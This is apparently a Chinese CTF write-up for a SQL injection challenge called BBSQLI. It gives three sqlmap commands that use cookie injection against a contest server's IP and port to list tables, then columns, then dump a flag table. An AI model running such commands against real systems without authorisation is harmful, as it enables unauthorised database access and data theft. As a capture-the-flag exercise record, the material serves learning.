



# BBSQLI_WP

## 0x00

此题有两种做法（请教了营里两个大佬）,sqlmap的cookie注入或者盲注

以下是sqlmap的方法，找了一份sqlmap使用教程

[sqlmap使用教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)

## 0x01

第一步，cookie注入猜解表

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --table --level 2
```

注：如有选择Y or n,一路n即可

发现一个带有flag字样的表



第二步，根据表猜解字段

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --columns -T [GDJM_flag] --level 2
```



ok,flag基本在这了

第三步，猜解字段内容

```
python sqlmap.py -u "http://202.112.51.184:16080/" --cookie "PHPSESSID=a5755aea3f46c4a45892bd5eee3e4fe9" --dump -T [GDJM_flag] -C "flag" --level 2
```



